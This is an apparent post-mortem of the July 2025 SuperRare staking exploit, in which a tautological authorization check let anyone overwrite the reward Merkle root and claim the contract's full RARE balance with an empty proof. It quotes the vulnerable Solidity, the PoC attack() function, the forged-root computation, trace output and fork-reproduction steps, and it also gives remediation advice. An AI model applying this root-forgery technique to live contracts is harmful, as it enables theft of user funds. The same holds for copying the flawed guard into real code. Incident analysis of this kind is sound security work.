


# SuperRare Staking Exploit — Permissionless `updateMerkleRoot()` + Single-Leaf Merkle Forgery

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo does not whole-compile, so this
> PoC was extracted into a standalone project).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [src_RareStakingV1.sol](sources/RareStakingV1_fFB512/src_RareStakingV1.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$730K — **11,907,874.713 RARE** drained from the staking contract (its entire RARE balance) |
| **Vulnerable contract** | `RareStakingV1` (implementation) — [`0xfFB512B9176D527C5D32189c3e310Ed4aB2Bb9eC`](https://etherscan.io/address/0xfFB512B9176D527C5D32189c3e310Ed4aB2Bb9eC#code) |
| **Victim** | SuperRare staking proxy (`ERC1967Proxy`) — [`0x3f4D749675B3e48bCCd932033808a7079328Eb48`](https://etherscan.io/address/0x3f4D749675B3e48bCCd932033808a7079328Eb48) |
| **Token drained** | `RARE` (SuperRareToken) — [`0xba5BDe662c17e2aDFF1075610382B9B691296350`](https://etherscan.io/address/0xba5BDe662c17e2aDFF1075610382B9B691296350) |
| **Attacker EOA** | [`0x5B9B4B4DaFbCfCEEa7aFbA56958fcBB37d82D4a2`](https://etherscan.io/address/0x5b9b4b4dafbcfceea7afba56958fcbb37d82d4a2) |
| **Attacker contract** | [`0x08947cedf35f9669012bDA6FdA9d03c399B017Ab`](https://etherscan.io/address/0x08947cedf35f9669012bda6fda9d03c399b017ab) |
| **Attack tx** | [`0xd813751bfb98a51912b8394b5856ae4515be6a9c6e5583e06b41d9255ba6e3c1`](https://app.blocksec.com/explorer/tx/eth/0xd813751bfb98a51912b8394b5856ae4515be6a9c6e5583e06b41d9255ba6e3c1) |
| **Chain / block / date** | Ethereum mainnet / 23,016,423 / July 28, 2025 |
| **Compiler** | Solidity v0.8.28, optimizer disabled |
| **Bug class** | Broken access control (inverted `!= ... ||` authorization predicate) → arbitrary Merkle-root injection → single-leaf proof forgery |

---

## TL;DR

`RareStakingV1.updateMerkleRoot()` is meant to be callable only by the owner or one whitelisted
address. Its guard is written with the comparison **inverted**:

```solidity
require((msg.sender != owner() || msg.sender != address(0xc2F3...)), "Not authorized ...");
```

Because the two operands are joined with `||` and both are `!=`, the predicate is **a tautology** —
it is `true` for every possible caller (no address can be *simultaneously equal* to both `owner()`
and `0xc2F3...`, so at least one `!=` is always satisfied). The function therefore has **no access
control at all**: anyone can overwrite `currentClaimRoot`.

The reward-claim path then trusts that root through a standard OpenZeppelin `MerkleProof.verify`.
The attacker simply:

1. Computed a **single-leaf Merkle root** equal to `keccak256(abi.encodePacked(attacker, amount))`,
   where `amount` is the contract's *entire* RARE balance.
2. Called `updateMerkleRoot(thatRoot)` — permitted by the broken guard.
3. Called `claim(amount, [])` with an **empty proof**. For a one-element tree the leaf *is* the
   root, so `MerkleProof.verify([], root, leaf)` returns `true`, and the contract transferred all
   **11,907,874.713 RARE** to the attacker.

No flash loan, no capital, no staked balance — two calls, total drain.

---

## Background — what the SuperRare staking contract does

`RareStakingV1` ([source](sources/RareStakingV1_fFB512/src_RareStakingV1.sol)) is a UUPS-upgradeable
staking + Merkle-based reward distributor for the SuperRare (`RARE`) token, sitting behind an
`ERC1967Proxy` at `0x3f4D…Eb48`. Users can:

- **`stake` / `unstake` / `delegate`** RARE
  ([:69-140](sources/RareStakingV1_fFB512/src_RareStakingV1.sol#L69-L140)).
- **`claim`** rewards for the current "round." Eligibility for a round is proven against a
  per-round **Merkle root** (`currentClaimRoot`): a leaf is `keccak256(recipient, value)`, and a
  caller submits the Merkle proof for their leaf
  ([:142-176](sources/RareStakingV1_fFB512/src_RareStakingV1.sol#L142-L176)).

Each reward epoch, the operator is supposed to publish a new root via `updateMerkleRoot`, which
bumps `currentRound`. The contract simply holds a pile of RARE and pays it out to whoever can prove
membership in the active root.

On-chain state at the fork block (read via `cast`):

| Parameter | Value |
|---|---|
| `owner()` | `0x860a80d33E85e97888F1f0C75c6e5BBD60b48DA9` |
| `currentRound` (pre-attack) | **2** |
| `currentClaimRoot` (pre-attack) | `0x9bddda3825a4928a2bf9c0919e5179e621a7f8784dcff371d3b52d67807725b1` |
| RARE held by the staking proxy | **11,907,874,713,019,104,529,057,960 wei = 11,907,874.713 RARE** |
| RARE decimals | 18 |

The entire RARE balance is the prize; the only thing standing between an attacker and it is the
Merkle gate — and that gate was attacker-controllable.

---

## The vulnerable code

### 1. The broken authorization guard on `updateMerkleRoot`

[src_RareStakingV1.sol:178-184](sources/RareStakingV1_fFB512/src_RareStakingV1.sol#L178-L184):

```solidity
function updateMerkleRoot(bytes32 newRoot) external override {
    require(
        (msg.sender != owner() || msg.sender != address(0xc2F394a45e994bc81EfF678bDE9172e10f7c8ddc)),
        "Not authorized to update merkle root"
    );
    if (newRoot == bytes32(0)) revert EmptyMerkleRoot();
    currentClaimRoot = newRoot;
    currentRound++;
    emit NewClaimRootAdded(newRoot, currentRound, block.timestamp);
}
```

The author clearly intended *"only the owner OR the whitelisted keeper may call this"*, i.e.

```solidity
require(msg.sender == owner() || msg.sender == 0xc2F3..., "Not authorized");
```

What was shipped is the De-Morgan-inverted opposite. Evaluate it for any caller `X`:

- `X != owner()` is false **only** when `X == owner()`.
- `X != 0xc2F3...` is false **only** when `X == 0xc2F3...`.
- Since `owner()` (`0x860a…`) and `0xc2F3…` are two *different* addresses, no single `X` can equal
  both. Hence at least one `!=` is always true, and `true || …` / `… || true` ⇒ the `require`
  **always passes**.

The intended allow-list is meaningless; `updateMerkleRoot` is effectively `public` and
unauthenticated.

### 2. The claim path trusts that attacker-set root with no other gate

[src_RareStakingV1.sol:142-176](sources/RareStakingV1_fFB512/src_RareStakingV1.sol#L142-L176):

```solidity
function claim(uint256 amount, bytes32[] calldata proof) public override nonReentrant {
    if (!verifyEntitled(_msgSender(), amount, proof))
        revert InvalidMerkleProof();
    if (lastClaimedRound[_msgSender()] >= currentRound)
        revert AlreadyClaimed();

    lastClaimedRound[_msgSender()] = currentRound;
    _token.safeTransfer(_msgSender(), amount);   // ← pays out `amount` of RARE
    emit TokensClaimed(currentClaimRoot, _msgSender(), amount, currentRound);
}

function verifyEntitled(address recipient, uint256 value, bytes32[] memory proof)
    public view override returns (bool)
{
    bytes32 leaf = keccak256(abi.encodePacked(recipient, value));
    return verifyProof(leaf, proof);            // MerkleProof.verify(proof, currentClaimRoot, leaf)
}
```

The OpenZeppelin proof verifier
([MerkleProof.sol:45-62](sources/RareStakingV1_fFB512/lib_openzeppelin-contracts_contracts_utils_cryptography_MerkleProof.sol#L45-L62)):

```solidity
function verify(bytes32[] memory proof, bytes32 root, bytes32 leaf) internal pure returns (bool) {
    return processProof(proof, leaf) == root;
}
function processProof(bytes32[] memory proof, bytes32 leaf) internal pure returns (bytes32) {
    bytes32 computedHash = leaf;
    for (uint256 i = 0; i < proof.length; i++) {        // ← empty proof ⇒ loop body never runs
        computedHash = Hashes.commutativeKeccak256(computedHash, proof[i]);
    }
    return computedHash;                                 // ← returns the leaf unchanged
}
```

With an **empty proof**, `processProof` returns the leaf verbatim, so `verify` reduces to
`leaf == root`. If the attacker sets `root := keccak256(abi.encodePacked(attacker, amount))`, then
`claim(amount, [])` passes verification for `amount` of their own choosing.

The two follow-on checks do not help:

- `lastClaimedRound[attacker] (= 0) >= currentRound (= 3 after the root update)` → `false`, so no
  `AlreadyClaimed` revert.
- `nonReentrant` is irrelevant — the attack is a single straight-line `transfer`, not reentrancy.

---

## Root cause — why it was possible

Two independent issues compose into a 1-transaction full drain:

1. **Inverted authorization predicate (the bug).** `updateMerkleRoot` uses
   `msg.sender != A || msg.sender != B`, which is a tautology, instead of
   `msg.sender == A || msg.sender == B`. The state variable that *defines who is allowed to be paid*
   (`currentClaimRoot`) became writable by anyone. This is the entire vulnerability — the rest is
   mechanical.

2. **Self-attesting single-leaf Merkle proofs.** OpenZeppelin's `MerkleProof.verify` legitimately
   treats a one-element tree as "root == leaf," accepting an empty proof. This is *correct* library
   behavior; it only becomes dangerous when the root is attacker-controlled. Once issue #1 hands the
   attacker the root, they construct a degenerate tree whose single leaf encodes
   `(their address, the contract's full balance)`, and the claim sails through.

A defense-in-depth contract would also (a) bind claim eligibility to actually-staked balances or a
fixed, owner-funded reward budget, and (b) never let a freshly-set root be claimed against in the
same transaction. None of those existed, so control of the root equals control of the treasury.

---

## Preconditions

- **None beyond being able to send two transactions.** No staked balance, no prior interaction, no
  capital, no flash loan, no special timing.
- The staking contract must hold RARE to steal (it held 11.9M RARE).
- `updateMerkleRoot` rejects `bytes32(0)`, so the forged root must be non-zero — trivially satisfied
  since it is a real keccak hash.
- The attacker's `lastClaimedRound` must be `< currentRound` (true for any never-claimed address;
  the root update itself bumps `currentRound`, guaranteeing it).

---

## Step-by-step attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). `amount` =
`11,907,874,713,019,104,529,057,960` wei RARE = the staking contract's full balance.

| # | Action | Call / value | Effect (from trace) |
|---|--------|--------------|---------------------|
| 0 | **Read target balance** | `RARE.balanceOf(proxy)` | `11,907,874,713,019,104,529,057,960` RARE → used as `amount` ([output.txt:36-42](output.txt#L36-L42)) |
| 1 | **Forge root off-chain** | `root = keccak256(abi.encodePacked(attacker, amount))` | `0x93f3c0d0d71a7c606fe87524887594a106b44c65d46fa72a42d80bd6259ade7e` (verified == the leaf) |
| 2 | **Overwrite Merkle root** | `proxy.updateMerkleRoot(root)` → impl `delegatecall` | Guard passes (tautology). `currentClaimRoot: 0x9bdd… → 0x93f3…`; `currentRound: 2 → 3` ([output.txt:53-62](output.txt#L53-L62)) |
| 3 | **Claim entire balance** | `proxy.claim(amount, [] )` with empty `bytes32[]` | `verifyEntitled` computes leaf == root ⇒ `MerkleProof.verify([], root, leaf) = true`; `lastClaimedRound[attacker]=0 < 3` ⇒ no `AlreadyClaimed` |
| 4 | **Payout** | `_token.safeTransfer(attacker, amount)` | `Transfer(proxy → attacker, 11,907,874,713,019,104,529,057,960)` ([output.txt:67-72](output.txt#L67-L72)) |
| 5 | **Confirm** | `RARE.balanceOf(attacker)` | `11,907,874,713,019,104,529,057,960` (was 0) ([output.txt:83-89](output.txt#L83-L89)) |

The PoC contract bundles steps 2–3 into one `attack()` call
([test/SuperRare_exp.sol:68-73](test/SuperRare_exp.sol#L68-L73)):

```solidity
function attack(bytes32 newRoot, uint256 amout) public {
    IERC1967Proxy target = IERC1967Proxy(ERC1967Proxy);
    target.updateMerkleRoot(newRoot);              // overwrite root (no auth)
    bytes32[] memory proof = new bytes32[](0);     // EMPTY proof
    target.claim(amout, proof);                    // claim full balance
}
```

### Profit / loss accounting

| | RARE (wei) | RARE | Approx. USD |
|---|---:|---:|---:|
| Staking contract before | 11,907,874,713,019,104,529,057,960 | 11,907,874.713 | ~$730,000 |
| Staking contract after | 0 | 0 | $0 |
| Attacker contract before | 0 | 0 | $0 |
| Attacker contract after | 11,907,874,713,019,104,529,057,960 | 11,907,874.713 | ~$730,000 |
| **Net attacker profit** | **+11,907,874,713,019,104,529,057,960** | **+11,907,874.713 RARE** | **~+$730K** |

The attacker walked off with 100% of the staking contract's RARE for zero capital outlay.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker contract"
    participant P as "Staking Proxy (ERC1967)"
    participant I as "RareStakingV1 (impl, delegatecall)"
    participant T as "RARE token"

    Note over P,I: currentClaimRoot = 0x9bdd...<br/>currentRound = 2<br/>proxy holds 11,907,874.713 RARE

    A->>T: balanceOf(proxy)
    T-->>A: 11,907,874,713,019,104,529,057,960 (= amount)
    Note over A: root = keccak256(abi.encodePacked(attacker, amount))<br/>= 0x93f3...ade7e

    rect rgb(255,235,238)
    Note over A,I: Step 1 — overwrite the Merkle root (no auth)
    A->>P: updateMerkleRoot(0x93f3...)
    P->>I: delegatecall updateMerkleRoot
    Note over I: require(sender != owner || sender != 0xc2F3...) -> ALWAYS true
    I-->>P: currentClaimRoot = 0x93f3...; currentRound = 3
    end

    rect rgb(227,242,253)
    Note over A,T: Step 2 — claim the whole balance with an EMPTY proof
    A->>P: claim(amount, [])
    P->>I: delegatecall claim
    Note over I: leaf = keccak256(attacker, amount) == root<br/>MerkleProof.verify([], root, leaf) = true<br/>lastClaimedRound[attacker]=0 < 3
    I->>T: safeTransfer(attacker, amount)
    T-->>A: 11,907,874.713 RARE
    end

    Note over A: Attacker balance: 0 -> 11,907,874.713 RARE  (~$730K)
```

### Authorization-predicate truth table (why the guard never blocks)



### Contract state evolution



---

## Why the forged root works (single-leaf tree)

A Merkle tree with exactly **one** leaf has that leaf *as* its root — there are no sibling hashes to
combine. OpenZeppelin's `processProof` walks the supplied proof array hashing the leaf with each
sibling; with a zero-length array it returns the leaf untouched, and `verify` checks
`leaf == root`. So the attacker only needs:

```
leaf = keccak256(abi.encodePacked(attacker, amount))
root = leaf                       // the single-leaf tree's root
proof = []                        // no siblings needed
```

Verified independently with `cast`:

```
keccak256( 08947cedf35f9669012bda6fda9d03c399b017ab           // attacker (20 bytes, packed)
         + 00000000000000000000000000000000000000000009d9972e8262b432cd88a8 )  // amount (32 bytes)
= 0x93f3c0d0d71a7c606fe87524887594a106b44c65d46fa72a42d80bd6259ade7e
```

which is exactly the `fakeRoot` hardcoded in the PoC
([test/SuperRare_exp.sol:52](test/SuperRare_exp.sol#L52)).

---

## Remediation

1. **Fix the authorization predicate.** Replace the tautological guard with the intended positive
   check:
   ```solidity
   require(
       msg.sender == owner() || msg.sender == 0xc2F394a45e994bc81EfF678bDE9172e10f7c8ddc,
       "Not authorized to update merkle root"
   );
   ```
   Better still, use a role/`onlyOwner` modifier (consistent with the rest of the contract, which
   already uses `onlyOwner` on `updateTokenAddress` and `_authorizeUpgrade`) and an explicit
   `AccessControl` allow-list rather than a hard-coded literal address.

2. **Treat single-leaf / empty-proof claims as suspicious.** If reward trees are always expected to
   have ≥ 2 leaves, reject `proof.length == 0` (or require a minimum tree depth). This neutralizes
   the "root == leaf" forgery even if a root is ever mis-set.

3. **Bound payouts to funded budgets, not the full balance.** Claims should be checked against a
   per-round reward allotment (and ideally the claimant's actual staked share), so a single
   claim can never exceed the intended distribution — let alone the whole treasury.

4. **Decouple root setting from immediate claimability.** Introduce a timelock / two-step
   (propose → finalize) for root updates, so a maliciously set root cannot be claimed against in the
   same block.

5. **Test the negative case.** A single unit test asserting that a non-owner call to
   `updateMerkleRoot` *reverts* would have caught this immediately; the inverted operator survived
   because only the positive (owner) path was exercised.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo does not
whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2025-07-SuperRare_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block 23,016,422). `foundry.toml`
  uses an Infura archive endpoint; if it returns `401 invalid project id`, rotate the `/v3/<key>` to
  another configured key.
- Result: `[PASS] testExploit()`, with the attack contract's RARE balance going from `0` to
  `11907874713019104529057960`.

Expected tail:

```
Ran 1 test for test/SuperRare_exp.sol:SuperRare
  stakingContractBalance 11907874713019104529057960
  attackContract Balance Before 0
  attackContract Balance After 11907874713019104529057960
[PASS] testExploit() (gas: 482316)
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: SlowMist ([@SlowMist_Team](https://x.com/SlowMist_Team/status/1949770231733530682)),
SolidityScan analysis (https://blog.solidityscan.com/superrare-hack-analysis-488d544d89e0).*
